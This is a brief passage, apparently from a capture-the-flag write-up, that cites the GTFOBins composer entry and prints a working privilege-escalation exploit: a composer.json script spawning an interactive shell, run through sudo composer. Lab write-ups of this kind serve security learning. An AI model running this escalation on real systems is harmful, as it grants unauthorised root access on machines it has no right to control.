 https://gtfobins.github.io/gtfobins/composer/

![alt text](Writeup/Academy/gtfobins.png)

## Exploit

```bash
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo /usr/bin/composer --working-dir=$TF run-script x
```
